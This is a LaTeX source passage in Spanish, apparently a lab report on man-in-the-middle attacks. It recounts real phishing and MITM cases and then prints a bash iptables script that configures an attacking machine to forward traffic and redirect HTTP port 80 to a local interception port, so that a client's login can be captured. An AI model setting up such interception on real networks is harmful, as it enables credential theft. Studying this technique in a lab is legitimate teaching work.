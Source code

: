 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{itemize}
    \item En 2015, 49 personas fueron detenidas en Europa tras una operación organizada por la Europol. Los hackers, mediante una técnica de ``phising'' se quedaban con datos de los clientes de varios bancos, engañandolos utilizando un página prácticamente idéntica a la original de dichos bancos. De este modo, las transferencias en lugar de llegar al destino intencionado, llegaban a los estafadores, llegando a conseguir de manera fraudulenta cerca de 6.000.000\euro.
    
    \item Sin irnos más lejos, en 2016, en España, una joven de 19 años fue detenida tras realizar un ataque MITM a una empresa, suplantando la identidad de esta y estafando 6.500\euro \hspace de la misma, ya que modificó el número de cuenta original al que iba dirigida la transferencia.
    
    \item Quizás uno de los casos más conocidos de ataque MITM y que fue destapado por Edward Snowden, fue el perpetrado por la Agencia Nacional de Seguridad Estadounidense, que simulaba los servicios de búsqueda de Google para recolectar datos de los usuarios. 
    
\end{itemize}

\section{Actuando como intermediario}

Ahora es nuestro turno de llevar a cabo un ataque. Para ello, y utilizando el software descrito anteriormente, descubriremos el usuario y la contraseña de un cliente que se conectará a una página web sin seguridad.

\subsection{Configuración del cortafuegos de la máquina atacante}

Para configurar el cortafuegos al iniciar la máquina, hemos utilizado un script de bash que ejecute los comandos necesarios para configurar \textit{iptables.} El script es el que sigue:

\begin{lstlisting}[language=bash,caption={bash version},captionpos=b]
#!/bin/bash
iptables -F
iptables -X
iptables -Z
iptables -t nat -F

iptables -P FORWARD ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -t nat -A PREROUTING -i eth1 -p tcp --destination-port 80 
         -j REDIRECT --to-port 10000

iptables-save > /etc/iptables.up.rules
\end{lstlisting}
\end{document}
